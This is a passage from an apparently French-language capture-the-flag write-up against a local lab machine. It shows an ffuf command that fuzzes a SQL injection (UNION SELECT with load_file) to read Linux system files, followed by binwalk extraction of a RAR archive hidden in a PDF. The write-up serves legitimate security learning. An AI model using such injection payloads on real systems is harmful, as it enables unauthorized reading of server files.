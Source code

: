 Malheureusement quand j'essaie de dumper d'autres fichiers (tels que le fichier de conf d'Apache ou le code des fichiers sous `/var/www/html`) je n'obtiens aucune données. Un caprice de `sqlmap` ? Je choisis d'utiliser `ffuf` pour voir quels fichiers je peux extraire avec cette commande :

```bash
ffuf -u "http://192.168.56.92:33447/bin/l33t_haxor.php?id=id=54%27)/**/UNION/**/ALL/**/SELECT/**/NULL,load_file(%27FUZZ%27)%23" \ 
  -w wordlists/files/Linux-files.txt -fw 35
```

Mais idem. Je n'ai pas d'explicatios à ce phénomène... peut être un `chroot` ?

## Inception

Je décide donc de me concentrer sur le fichier PDF. A l'aide d'un file-carver je pourrais peut être extraire d'autres données.

J'ai voulu utiliser `foremost` mais la compilation échoue en 64 bits. J'ai utilisé `PhotoRec` mais il n'a rien trouvé d'intéressant (il est peut être trop spécifique aux systèmes de fichiers).

Finalement j'ai trouvé une image Docker pour `binwalk` :

```shellsession
$ docker run -it --rm -v "$(pwd):/workspace" -w /workspace sheabot/binwalk -e strcpy.pdf

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             PDF document, version: "1.5"
529           0x211           Zlib compressed data, default compression
857           0x359           JPEG image data, JFIF standard 1.01
887           0x377           TIFF image data, big-endian, offset of first image directory: 8
28394         0x6EEA          Zlib compressed data, default compression
28839         0x70A7          Zlib compressed data, default compression
108356        0x1A744         Zlib compressed data, default compression

WARNING: Extractor.execute failed to run external extractor 'unrar e '%e'': [Errno 2] No such file or directory: 'unrar', 'unrar e '%e'' might not be installed correctly

WARNING: Extractor.execute failed to run external extractor 'unrar -x '%e'': [Errno 2] No such file or directory: 'unrar', 'unrar -x '%e'' might not be installed correctly
109264        0x1AAD0         RAR archive data, version 4.x, first volume type: MAIN_HEAD

$ ls
strcpy.pdf  _strcpy.pdf.extracted
$ ls _strcpy.pdf.extracted/
1A744  1A744.zlib  1AAD0.rar  211  211.zlib  6EEA  6EEA.zlib  70A7  70A7.zlib
```

Le logiciel a extrait une archive RAR du fichier PDF. Une fois les fichiers de l'archive extraits je me retrouve avec une image (`lol.png`).

Quand j'applique `strings` sur l'image j'obtiens ces dernières lignes :

```
Rar!
"ot 
Avinash.contact
r9lD
,~E|i
TMcX
\       '|!
k\w;
{{5WH
aG]p
Q%,i]
UR]7
@7W!
Rv<{p]]D
```